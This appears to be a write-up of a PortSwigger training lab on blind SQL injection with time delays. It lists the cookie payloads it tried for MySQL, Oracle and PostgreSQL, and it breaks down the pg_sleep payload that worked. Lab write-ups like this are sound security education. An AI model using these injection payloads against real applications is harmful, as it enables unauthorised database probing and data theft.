 # Blind SQL Injection with Time Delays Writeup
# Lab: Blind SQL injection with time delays - [Link](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)
## Goal
Exploit a blind SQL injection in the `TrackingId` cookie to cause a 10-second delay in the application's response.

## Vulnerability
The app uses the `TrackingId` cookie in a SQL query without sanitization. No query results or errors are shown, but synchronous query execution allows time-based delays to confirm injection.

## Solution Steps
1. **Test Payloads**:
   - Cookie: `TrackingId=5zPn80GQj1fQ58Nz'||(SELECT SLEEP(10))--; session=f4a3WY4FNQb8lefiLqJl3WCksRzlVjGV`
     - No delay (MySQL-specific `SLEEP` failed).
   - Cookie: `TrackingId=5zPn80GQj1fQ58Nz'||(dbms_pipe.receive_message(('a'),10))--; session=f4a3WY4FNQb8lefiLqJl3WCksRzlVjGV`
     - No delay (Oracle-specific `dbms_pipe` failed).
   - Cookie: `TrackingId=5zPn80GQj1fQ58Nz'||(SELECT pg_sleep(10))--; session=f4a3WY4FNQb8lefiLqJl3WCksRzlVjGV`
     - Success! 10-second delay (PostgreSQL-specific `pg_sleep` worked).

2. **Winning Payload**:
   - `5zPn80GQj1fQ58Nz'||(SELECT pg_sleep(10))--`:
     - `'` closes the query string.
     - `||` concatenates in PostgreSQL.
     - `pg_sleep(10)` delays for 10 seconds.
     - `--` comments out trailing query parts.

3. **Result**: The 10-second delay confirms the injection, solving the lab.
